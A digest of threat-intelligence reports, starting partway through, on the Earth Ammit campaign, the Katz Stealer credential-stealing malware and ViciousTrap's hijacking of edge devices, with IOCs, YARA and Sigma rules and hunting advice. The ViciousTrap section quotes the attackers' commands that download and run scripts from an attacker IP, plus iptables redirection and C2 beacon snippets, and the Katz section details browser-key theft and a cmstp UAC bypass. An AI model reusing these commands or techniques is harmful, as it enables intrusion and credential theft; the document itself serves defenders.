    *   **Execution Order Dependency:** The loader requires specific export functions to be executed in a predefined order to decrypt and execute the payload. Incorrect execution order, such as attempting to run a single export function with `rundll32.exe`, will cause the process to fail, thwarting analysis attempts.

**Attribution Indicators**:
Observed indicators suggest the actor is potentially Chinese-speaking. This is based on timestamps of file compilation and command execution logs aligning with the GMT+8 time zone (covering China, Taiwan, and parts of Southeast Asia). Additionally, the TTPs and target profiles show resemblances to those used by the Dalbit threat group. While not definitive attribution, these similarities suggest a potential connection or shared toolkit.

### Countries
Primarily Taiwan
South Korea
Canada (earlier cases)

### Industries
Military
Satellite
Heavy industry
Media
Technology
Software services
Healthcare
Drone vendors
Payment service providers

### Recommendations
Organizations can mitigate supply chain and fiber-based attacks through several measures:
*   Manage third-party risks by assessing vendors.
*   Verify software integrity, potentially using Software Bills of Materials (SBOMs).
*   Enforce code signing to ensure software authenticity.
*   Continuously monitor third-party software behavior.
*   Apply patches promptly to address vulnerabilities.
*   Segment vendor systems to limit lateral movement.
*   Adopt a Zero Trust Architecture to validate every connection and access attempt.
*   Strengthen Endpoint Detection and Response (EDR) and behavioral monitoring solutions.
*   Include third-party breach scenarios in incident response plans.
*   Specifically for fiber-based techniques, monitor the use of related APIs (such as `ConvertThreadToFiber` and `CreateFiber`) to detect abnormal behavior.
*   Enhance behavioral monitoring to identify unusual execution patterns characteristic of fiber-based malware.

### Hunting methods
Threat hunting can be performed using platforms like Trend Vision One™.
A general hunting query to detect malicious indicators mentioned in the report using the Trend Vision One Search App is:
```
eventName:MALWARE_DETECTION AND (malName:*VENFRPC* OR malName:*CXCLNT* OR malName:*CLNTEND* OR malName :*SCREENCAP*)
```
**Logic of the query:** This query looks for security events categorized as "MALWARE_DETECTION" and filters those events to include only instances where the detected malware name (`malName`) contains any of the identified tool names used by Earth Ammit across their VENOM and TIDRONE campaigns: VENFRPC, CXCLNT, CLNTEND, or SCREENCAP. This helps security teams identify systems potentially compromised by these specific malware components.

More detailed hunting queries and threat intelligence are available for Trend Vision One customers with Threat Insights Entitlement.

### IOC

The indicators of compromise for this entry can be found [here](https://www.google.com/url?sa=E&q=https%3A%2F%2Fdocuments.trendmicro.com%2Fassets%2Ftxt%2FIOCs_Earth-Ammitxael9qX.txt).

**Original link:** [https://www.trendmicro.com/en_us/research/25/e/earth-ammit.html](https://www.trendmicro.com/en_us/research/25/e/earth-ammit.html)

## Katz Stealer Threat Analysis
### Summary
Katz Stealer is a multi-featured credential-stealing malware offered as a service, designed for broad system reconnaissance and data theft. It propagates through common online activities such as phishing emails, fake software downloads, malicious advertisements, or search results manipulated by threat actors. The malware employs a multi-stage infection chain that leverages techniques like concealing malicious code in benign files, executing payloads directly in memory, and abusing legitimate system processes to evade detection and gain elevated privileges. Notably, it incorporates geofencing to avoid execution in certain regions, primarily Commonwealth of Independent States (CIS) countries, a tactic often used by malware authors to hinder analysis and law enforcement efforts in those areas. The stealer is capable of targeting a wide array of sensitive information, including browser credentials, cryptocurrency wallets, email data, gaming platform details, network configurations, and utilizes surveillance capabilities like screen capture and clipboard monitoring. Its sophistication lies in its use of multiple evasion techniques and its ability to compromise various platform types, making it a significant threat for organizations and individuals.

### Technical Details

Katz Stealer utilizes a multi-stage infection chain beginning with an initial gzip file containing heavily obfuscated JavaScript. When opened, this JavaScript downloads a second stage payload, an obfuscated and base64-encoded PowerShell script. This PowerShell script is executed with hidden window flags to maintain stealth. The script is responsible for downloading a third-stage payload by scanning a seemingly harmless image file downloaded from archive.org for embedded code between specific markers (`<<base64_start>>` and `<<base64_end>>`). This extracted base64-encoded code is then decoded and executed directly in memory using .NET Reflection, effectively bypassing disk writes for this stage.

The executed .NET binary, which is also obfuscated, acts as a loader. Before proceeding, it conducts basic checks to detect virtual machines or sandbox environments by querying the system BIOS information via the registry key `HKLM\HARDWARE\DESCRIPTION\System\BIOS`. It also performs checks on screen resolution (flagging `≤1024×768` as potential analysis environments) and system uptime using `GetTickCount64()`, flagging systems with uptime less than 10 minutes as suspicious. If a virtual or analysis environment is detected, the malware alters its behavior or terminates execution.

This .NET payload includes a User Account Control (UAC) bypass mechanism that abuses `cmstp.exe`, a legitimate Windows utility. This bypass allows the malware to run with elevated privileges without triggering UAC prompts and is specifically used to launch the injection target, the `MSBuild.exe` process, with these elevated rights.

The primary stealer payload is downloaded by the .NET loader from a temporary Cloudflare-hosted domain (`pub-ce02802067934e0eb072f69bf6427bf6.r2.dev`) and saved as `received_dll.dll` in the system's temporary folder. This payload is then injected into the elevated `MSBuild.exe` process via Process Hollowing. The injected payload establishes a persistent TCP connection to the Command and Control (C2) server at `185.107.74.40`, identifying itself with a unique ID “al3rbi” and attempting to reconnect every 5 seconds if the connection drops. Another payload, `katz_ontop.dll`, is downloaded to the system's temp folder.

The malware then searches for and targets popular Chromium-based browsers (Chrome, Edge, Brave) and Gecko-based browsers like Firefox. For Chromium browsers, it locates the `Local State` files containing decrypted encryption keys crucial for unlocking saved passwords, cookies, and authentication tokens. The malware initializes COM in Single-Threaded Apartment (STA) mode and creates an `IElevator` object to gain elevated access for file operations. This allows it to retrieve the `Local State` file and extract the master encryption key, saving the stolen keys as plain text files (e.g., `decrypted_chrome_key.txt`) in the victim's AppData folder. The code for decrypting Chromium data shows similarity to an open-source tool. For Firefox and other Gecko browsers, it scans for `profiles.ini` and extracts sensitive files like `cookies.sqlite`, `logins.json`, `key4.db`/`key3.db`, `formhistory.sqlite`, and `places.sqlite`.

Katz Stealer also compromises communication platforms like Discord by hijacking the process. It locates the Discord installation, identifies the latest version, and modifies the `index.js` file within the `app.asar` archive. This injected JavaScript code connects to `twist2katz.com` over HTTPS using a spoofed Chrome User-Agent containing "katz-ontop" and executes remote JavaScript payloads within the Discord process, creating a persistent backdoor for dynamic code execution.

Cryptocurrency wallets are extensively targeted, including standalone applications like Exodus, Bitcoin Core, Electrum, Monero, etc., and browser extensions. The malware scans for wallet files using file extensions and keywords, copies relevant data (including private keys) to a temporary directory, and recursively copies entire wallet directories for some types. Browser extension wallet data is copied to a temporary directory using a structured naming format (`BrowserName/ProfileName/ExtensionID/filename`). Stolen wallet data is immediately uploaded to a remote server, and the temporary folder is deleted afterward.

Additional data targeted includes email client data (Outlook PST/OST, Windows Live Mail, Foxmail), gaming platform credentials and configuration files (Steam), FTP client credentials, VPN configuration files (NordVPN, OpenVPN), other messaging application data (Slack, Signal, Teams), cryptographic keys (private keys, seed phrases), WiFi credentials (using `netsh`), and Ngrok tokens from `ngrok.yml`.

Beyond data exfiltration, Katz Stealer gathers basic system information (OS, architecture, CPU, RAM, IP, geolocation) and sends it to the C2. It possesses surveillance capabilities, including screen capture using the `BitBlt` function when commanded by the C2, saving the output as a bitmap file and sending it back. It can also monitor and capture the current contents of the system clipboard upon receiving a C2 command.

The malware implements geofencing by checking the system's locale, keyboard layout (`GetLocaleInfoA`, `GetKeyboardLayout`), and default UI language (`GetSystemDefaultLangID`) against hardcoded values for CIS countries (Belarus, Kazakhstan, Kyrgyzstan, Tajikistan, Uzbekistan, Armenia, Azerbaijan, Moldova), terminating execution if any match.

### Countries
Katz Stealer implements a geofencing mechanism that prevents execution in specific regions, primarily Commonwealth of Independent States (CIS) countries. The malware avoids execution in Belarus, Kazakhstan, Kyrgyzstan, Tajikistan, Uzbekistan, Armenia, Azerbaijan, and Moldova.

### Industries
The sources do not explicitly list targeted industries. However, the targeted data types and platforms suggest a broad focus across various user types, including individuals and potentially employees within organizations that use popular browsers, communication tools, email clients, gaming platforms, and cryptocurrency wallets.

### Recommendations
Technical recommendations for detecting Katz Stealer activity include:
*   Monitoring network traffic for unusual outbound connections to known C2 servers or suspicious domains.
*   Flagging network connections using the suspicious User-Agent string containing “katz-ontop”.
*   Checking the file system for the creation or presence of temporary files with suspicious names like “received\_dll.dll”, “katz\_ontop.dll”, or decrypted key files such as “decrypted\_chrome\_key.txt” in unusual locations, particularly within the AppData directory.
*   Monitoring for the abuse of legitimate system utilities, specifically `cmstp.exe`, looking for unusual command-line arguments or process creation events related to its execution.
*   Monitoring for unusual process creation or injection activity, particularly the spawning of `MSBuild.exe` by uncommon parent processes, or the injection of malicious payloads into `MSBuild.exe` or legitimate browser processes.
*   Detecting the execution of Chromium-based browsers in headless mode by monitoring for unusual command-line arguments or process creation events related to headless browser execution.
*   Monitoring for processes that enumerate registry keys or access files associated with popular browsers and wallet applications, which can indicate credential harvesting attempts.

Organizations can use detection rules like YARA and Sigma, or scanning tools like THOR Cloud Lite or THOR Lite, which include specific rules for Katz Stealer detection.

### Hunting methods
The following YARA and Sigma rules are provided for detecting Katz Stealer and related activity:

YARA rules
---
The following YARA rules can be used to detect Katz Stealer and components from its infection chain. The rules are available in this [GitHub repository](https://www.google.com/url?sa=E&q=https%3A%2F%2Fgithub.com%2FNeo23x0%2Fsignature-base%2Fblob%2Fmaster%2Fyara%2Fmal_katz_stealer.yar) 

| Rule Name | Description |
| --- |  --- |
| MAL\_Katz\_Stealer\_May25 | Detects Katz Stealer |
| MAL\_DLL\_Chrome\_App\_Bound\_Encryption\_Decryption\_May25 | Detects a DLL used to decrypt App-Bound Encrypted (ABE) cookies, passwords & payment methods from Chromium-based browsers. seen being used by Katz stealer |
| SUSP\_Katz\_Stealer\_Log\_May25 | Detects log file that contains system reconnaissance data, seen being generated by Katz stealer |
| MAL\_NET\_Katz\_Stealer\_May25 | Detects .NET based Katz stealer loader |
| MAL\_NET\_UAC\_Bypass\_May25 | Detects .NET based tool abusing legitimate Windows utility cmstp.exe to bypass UAC (User-Admin-Controls) |

Sigma Rules
---
Sigma Rules
-----------

| Rule | Description |
| --- |  --- |
| [dns\_query\_win\_katz\_stealer\_domain](https://github.com/SigmaHQ/sigma/pull/5429/files) | Detects DNS queries to domains associated with Katz Stealer malware |
| [image\_load\_win\_katz\_stealer\_payloads](https://github.com/SigmaHQ/sigma/pull/5429/files) | Detects loading of DLLs associated with Katz Stealer malware 2025 variants |
| [zeek\_dns\_katz\_stealer\_domain](https://github.com/SigmaHQ/sigma/pull/5429/files) | Detects DNS queries to domains associated with Katz Stealer malware |
| [zeek\_http\_katz\_stealer\_susp\_useragent](https://github.com/SigmaHQ/sigma/pull/5429/files) | Detects network connections with suspicious User-Agent string containing "katz-ontop", which may indicate Katz Stealer activity |
| [file\_access\_win\_susp\_process\_access\_browser\_cred\_files](https://github.com/SigmaHQ/sigma/pull/5429/files) | Detects file access to browser credential storage paths by non-browser processes, which may indicate credential access attempts |
| [proc\_creation\_win\_uac\_bypass\_cmstp](https://github.com/SigmaHQ/sigma/blob/304b019212880d10312d907230a5549d403ca460/rules/windows/process_creation/proc_creation_win_uac_bypass_cmstp.yml) | Detects the use of cmstp.exe to bypass UAC |
| [proc\_creation\_win\_msbuild\_susp\_parent\_process](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_msbuild_susp_parent_process.yml) | Detects suspicious execution of 'Msbuild.exe' by a uncommon parent process |
| [proc\_creation\_win\_registry\_enumeration\_for\_credentials\_cli](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_registry_enumeration_for_credentials_cli.yml) | Detects processes that query known 3rd party registry keys that hold credentials via commandline |
| [proc\_creation\_win\_browsers\_chromium\_headless\_exec](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_browsers_chromium_headless_exec.yml) | Detects execution of Chromium based browser in headless mode |

### IOC
**C2 Addresses**
```
185.107.74[.]40
31.177.109[.]39
```

**Related Domains**
```
twist2katz[.]com
pub-ce02802067934e0eb072f69bf6427bf6[.]r2[.]dev
katz-stealer[.]com
katzstealer[.]com
```

**User-Agent**
```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 katz-ontop
```

**Filenames**
```
\AppData\Local\Temp\katz_ontop.dll
\AppData\Local\Temp\received_dll.dll
\AppData\Roaming\decrypted_chrome_key.txt
\AppData\Roaming\decrypted_brave_key.txt
\AppData\Roaming\decrypted_edge_key.txt
```

**Payload Hashes (SHA256)**
```
22af84327cb8ecafa44b51e9499238ca2798cec38c2076b702c60c72505329cb
e4249cf9557799e8123e0b21b6a4be5ab8b67d56dc5bfad34a1d4e76f7fd2b19
fb2b9163e8edf104b603030cff2dc62fe23d8f158dd90ea483642fce2ceda027
0df13fd42fb4a4374981474ea87895a3830eddcc7f3bd494e76acd604c4004f7
4f12c5dca2099492d0c0cd22edef841cbe8360af9be2d8e9b57c2f83d401c1a7
6dc8e99da68b703e86fa90a8794add87614f254f804a8d5d65927e0676107a9d
e73f6e1f6c28469e14a88a633aef1bc502d2dbb1d4d2dfcaaef7409b8ce6dc99
15953e0191edaa246045dda0d7489b3832f27fdc3fcc5027f26b89692aefd6e1
2798bf4fd8e2bc591f656fa107bd871451574d543882ddec3020417964d2faa9
e345d793477abbecc2c455c8c76a925c0dfe99ec4c65b7c353e8a8c8b14da2b6
c601721933d11254ae329b05882337db1069f81e4d04cd4550c4b4b4fe35f9cd
fdc86a5b3d7df37a72c3272836f743747c47bfbc538f05af9ecf78547fa2e789
25b1ec4d62c67bd51b43de181e0f7d1bda389345b8c290e35f93ccb444a2cf7a
964ec70fc2fdf23f928f78c8af63ce50aff058b05787e43c034e04ea6cbe30ef
d92bb6e47cb0a0bdbb51403528ccfe643a9329476af53b5a729f04a4d2139647
b249814a74dff9316dc29b670e1d8ed80eb941b507e206ca0dfdc4ff033b1c1f
925e6375deaa38d978e00a73f9353a9d0df81f023ab85cf9a1dc046e403830a8
96ada593d54949707437fa39628960b1c5d142a5b1cb371339acc8f86dbc7678
b912f06cf65233b9767953ccf4e60a1a7c262ae54506b311c65f411db6f70128
2852770f459c0c6a0ecfc450b29201bd348a55fb3a7a5ecdcc9986127fdb786b
5dd629b610aee4ed7777e81fc5135d20f59e43b5d9cc55cdad291fcf4b9d20eb
```

**Original link:** [https://www.nextron-systems.com/2025/05/23/katz-stealer-threat-analysis/](https://www.nextron-systems.com/2025/05/23/katz-stealer-threat-analysis/)

## ViciousTrap – Infiltrate, Control, Lure: Turning edge devices into honeypots en masse.
### Summary
Sekoia.io's Threat Detection & Research (TDR) team investigated a novel threat actor, dubbed ViciousTrap, who has compromised a significant number of edge devices, primarily repurposing them into components of a large-scale distributed honeypot-like network. This actor's core objective appears to be the observation and collection of exploitation attempts and potentially non-public or zero-day exploits by positioning compromised devices as Man-in-the-Middle (MitM) nodes capable of intercepting network flows.

The actor has compromised over 5,500 edge devices across more than 50 brands, including SOHO routers, SSL VPNs, DVRs, and BMC controllers. The campaign primarily targets end-of-life (EOL) devices that are vulnerable to known exploits. Based on infrastructure overlaps, geographic distribution of compromised devices, and redirection targets, the actor is assessed as likely of Chinese-speaking origin, although a strong overlap with other known groups like GobRAT was not definitively established.

This activity represents a relatively unique approach, focusing on using compromised devices not for traditional malicious purposes like botnets or data exfiltration, but rather as passive observers within a larger intelligence gathering network. The actor is actively monitoring traffic directed at numerous real devices (not decoys) across various types, suggesting a focus on gathering intelligence on exploits and access methods used by other threat actors.

### Technical Details


The ViciousTrap infection chain primarily leverages known vulnerabilities in internet-facing edge devices, particularly end-of-life (EOL) equipment. The initial access method observed by Sekoia.io involved the exploitation of the CVE-2023-20118 vulnerability affecting Cisco SOHO routers. This vulnerability is exploited to facilitate the download and execution of malicious scripts. The earliest observed exploitation attempts attributed to this actor using this CVE were in March 2025, and activity has remained sustained since then, occurring almost daily.

The attack proceeds in multiple stages:
1.  **Initial Exploitation:** The attacker exploits CVE-2023-20118 via a POST request to download and execute a bash script named `a` using `ftpget`. The command observed is `ftpget -uanonymous -px${IFS}101.99.90.20${IFS}/tmp/a${IFS};sh${IFS}/tmp/a`. This command downloads the script from `101.99.90[.]20` to `/tmp/a` on the compromised device and then executes it using `sh`.
2.  **Download `wget` binary:** The executed `a` bash script performs a second `ftpget` command to download a busybox `wget` binary compiled for MIPS architecture from `101.99.90.20` to `/tmp/wget`. It then makes the downloaded binary executable using `chmod +x /tmp/wget`. The observed command in the script is `ftpget -uanonymous -p123 101.99.90.20 /tmp/wget wget; chmod +x /tmp/wget`. This binary is not typically present on these systems and is required for the post-exploitation phase, specifically for C2 communication.
3.  **Download and Execute Redirection Script:** The CVE-2023-20118 vulnerability is exploited a second time, this time using the newly downloaded `wget` binary to retrieve and execute a second script. The filename of this script includes a unique UUID to identify the specific infection attempt. The command observed is `wget${IFS}-O${IFS}main.sh; /bin/sh${IFS}main.sh`. The C2 infrastructure at `101.99.90[.]20:58080` uses an allow-list, delivering the payload only to systems confirmed as compromised via their UUID in the download request.

The secondary script, internally named **NetGhost**, is a bash script designed to perform several key post-exploitation actions:
-   **Self-removal:** The script immediately deletes itself using an `rm $0` command to minimize forensic artifacts.
-   **Targeted Traffic Redirection:** It checks for the availability of ports 80, 8000, or 8080 using `netstat` and `iptables`. The first available port is selected as the destination port (`Dport`) for redirection. The script then clears any existing NAT redirection rules (`PREROUTING`) pointing to the attacker's infrastructure using `iptables -t nat -D PREROUTING`. Finally, it establishes a new NAT redirection rule using `iptables` to forward all incoming TCP traffic on the selected `Dport` to a destination IP and port defined within the script's variables (`$arg4:$arg5`), which correspond to the attacker's listening server. This setup enables Man-in-the-Middle (MitM) capabilities by redirecting traffic to the attacker's interception servers.
-   **C2 Notification:** The script uses the previously downloaded `wget` binary to send multiple HTTP requests (five times) to a remote server, likely a C2 server. These requests contain the chosen redirected port (`$Dport`) and the victim device's unique identifier (`$arg1`). The observed command snippet for notification is `while true; do count=5; for i in 1 2 3 4 5 do /tmp/wget "$arg2?-$(Dport)-$(arg1)" done done`. The `$arg2` variable in the script is `http://101.99.90.20:19900/` which corresponds to the notification server.

Multiple variants of the NetGhost script have been observed, primarily differing in the destination IP address used for traffic redirection. Two distinct redirection server IP addresses have been identified: `111.90.148[.]151` and `111.90.148[.]112`.

Beyond the CVE-2023-20118 exploit, ViciousTrap operators have been observed targeting other devices and vulnerabilities:
-   **D-LINK DIR-850L:** Compromised via an unidentified buffer overflow vulnerability. Observed exploitation attempts involve commands structured similarly to the Cisco exploit, downloading and executing `main.sh` via `wget`.
-   **ASUS routers:** Exploited using CVE-2021-32030 to extract firmware version and establish SSH access on port 53282. Over 9500 ASUS routers running an SSH daemon on this port were potentially compromised. No honeypots were observed on these specific ASUS compromises.
-   **Linksys LRT224** and **Araknis Networks AN-300-RT-4L2W VPN routers:** Targeted to execute NetGhost, confirmed via Censys results.

The infrastructure supporting this campaign is composed of three main parts: exploitation servers, notification servers, and interception servers. All actively observed IP addresses for exploitation, staging, and traffic redirection are located in Malaysia and belong to the same Autonomous System, AS45839, operated by the hosting provider Shinjiru. The infrastructure can be correlated by a single SSL certificate observed across many attacker servers (SHA1 fingerprint: `c15f77d64b7bbfb37f00ece5a62095562b37dec4`). The interception servers (`111.90.148[.]151` and `111.90.148[.]112`) host hundreds of HTTP and HTTPS services listening on high ports, configured to intercept traffic intended for approximately 60 distinct monitored device types and brands. The attackers use Nginx reverse proxies to manage and strip SSL connections on these interception servers. They are tunneling communications to real devices, not decoy ones.

A notable observation is the reuse of a webshell previously documented by Sekoia.io in a blogpost on PolarEdge. ViciousTrap attempted to compromise a Cisco RV042 honeypot using this specific webshell in April 2025. This webshell had not been publicly released, suggesting the ViciousTrap actor acquired it through passive observation or data interception, repurposing it for their own operations. This aligns with their core strategy of intercepting traffic to collect exploits and accesses.

### Countries
Compromised devices have been identified across 84 countries.
The analysis of compromised hosts based on the NetGhost JARM hash indicates that Macao is the most infected country, likely due to the prevalence of vulnerable D-LINK DIR-850L routers. Asia generally shows a high concentration of compromised devices. The traffic is redirected to numerous assets in Taiwan and the United States. The attacker's infrastructure is hosted in Malaysia.

### Industries
The sources list device types and brands being targeted and monitored, which can be broadly categorized as affecting various industries and environments:
-   Small Office/Home Office (SOHO) environments
-   Enterprise networks (SSL VPNs, enterprise-grade network appliances)
-   Surveillance (DVR/IP Cameras)
-   Data Storage (NAS)
-   IT Infrastructure Management (BMC controllers)

Specific targeted/monitored brands and device types include: Cisco SOHO routers (RV042G, RV042, RV082), D-Link (DIR-850L, DNR-312L, DIR-853/ET, DCS), Linksys (LRT224, Smart WiFi), ASUS (routers, DSL), QNAP (QNAP), Araknis Networks (AN-300-RT-4L2W), Fortinet, Check Point, Ivanti Connect Secure, Mitrastar, Zyxel, TP-Link, Huawei, Netonix, Robustel, Totonk, VSOL, Igate, Trendnet, Ruijie Networks, Buffalo (Linkstation), Honeywell, Avtech, Axis, Amcrest, Panasonic, Rifatron, Speco, Xiongmai Technology, ICCTV, Samsung, Tiandy Tech, QNO, Ruckus, Supermicro, VOS3000, PestPac, Ubiquiti, Canon, Effiticers Inc., Cisco, Cambium.

### Recommendations
The source does not explicitly provide a list of technical recommendations. However, based on the analysis, implicit recommendations include:
-   Patching devices vulnerable to CVE-2023-20118, CVE-2021-32030, and other vulnerabilities being exploited by ViciousTrap.
-   Replacing or retiring End-of-Life (EOL) devices that are no longer receiving security updates.
-   Monitoring network traffic for suspicious activity originating from the identified exploitation and redirection servers.
-   Implementing network segmentation to limit the impact of compromised edge devices.
-   Monitoring for unexpected SSH daemons running on unusual ports (e.g., port 53282).

### Hunting methods
The article describes several techniques used by Sekoia.io TDR to identify compromised devices and infrastructure related to ViciousTrap activity. These methods can be adapted into hunting queries:

1.  **JARM Hash:** Searching for devices on the internet with the specific ViciousTrap JARM hash (`29d3fd00029d29d00029d3fd29d29dfff2e71077958c8b453cd71f499e9b99`) can reveal potentially compromised hosts, particularly those using the default ports (80, 8000, 8080) used by NetGhost.
    *   *Logic:* JARM hashes are active fingerprinting hashes of the TLS server-side. This unique hash was observed on the ViciousTrap interception servers and can identify other internet-facing systems configured similarly, indicating potential compromise or connection to the attacker's infrastructure.

2.  **SSL Certificate Fingerprint:** For HTTPS services redirected by ViciousTrap, compromised hosts can be identified by looking for internet-facing systems that share the same SSL certificate fingerprint as the attacker's interception servers (`c15f77d64b7bbfb37f00ece5a62095562b37dec4` is one such fingerprint). The attacker often creates mostly self-signed certificates by copying existing ones.
    *   *Logic:* By checking SSL certificate fingerprints on internet scanning services, one can correlate seemingly disparate devices that are actually terminating SSL on infrastructure linked by the attacker's use of common certificates.

3.  **TCP TTL and Window Size Analysis:** This method can help identify HTTP services being redirected to the attacker's interception servers. The ViciousTrap interception servers have a consistent TCP window size (observed as 64240). By sending SYN+ACK packets to potential victim IP addresses on ports 80, 8000, and 8080, if a response is received with the specific window size (e.g., 64240) and a significantly lower Time To Live (TTL) compared to responses on other ports from the same IP, it strongly suggests the traffic on that port is being redirected to a different host (the attacker's server).
    *   *Logic:* When a packet is redirected through an intermediary (like the attacker's server), its TTL decreases, and the TCP window size is determined by the intermediary server, not the original host. A change in both, particularly the TTL dropping and the window size matching the attacker's known server, indicates redirection. This is illustrated in the provided hping3 examples.

4.  **Monitoring for specific process activity:** Look for execution of `ftpget`, `wget` (especially a busybox binary dropped in `/tmp`), and `chmod +x /tmp/wget`. Also, monitor for the execution of suspicious shell scripts, particularly those performing `iptables` modifications to NAT rules, self-deletion (`rm $0`), and C2 communication via `wget` requests containing UUIDs and port information.
    *   *Logic:* These are specific behaviors observed in the ViciousTrap infection chain. Detecting these process executions or command line arguments can indicate compromise.

5.  **Monitoring for specific network connections:** Look for outbound connections from compromised devices to the exploitation, notification, and redirection server IP addresses and ports identified.
    *   *Logic:* These are direct indicators of communication with attacker infrastructure.

6.  **Monitoring for unexpected SSH services:** Scan for SSH services running on unusual ports like 53282, especially on targeted ASUS routers.
    *   *Logic:* ViciousTrap was observed setting up SSH access on this specific port after compromising certain ASUS devices.

### IOC
**Hashes**
```
d92d2f102e1e417894bd2920e477638edfae7f08d78aee605b1ba799507e3e77
20dff1120d968330c703aa485b3ea0ece45a227563ca0ffa395e4e59474dc6bd
```
**IPs**
```
101.99.91[.]151
101.99.91[.]239
111.90.148[.]151
111.90.148[.]112
212.232.23[.]217
155.254.60[.]160
101.99.94[.]173
103.43.19[.]61
103.56.17[.]163
103.43.18[.]59
212.232.23[.]168
212.232.23[.]143
101.99.90[.]20
```

**Original link:** [https://blog.sekoia.io/vicioustrap-infiltrate-control-lure-turning-edge-devices-into-honeypots-en-masse/](https://blog.sekoia.io/vicioustrap-infiltrate-control-lure-turning-edge-devices-into-honeypots-en-masse/)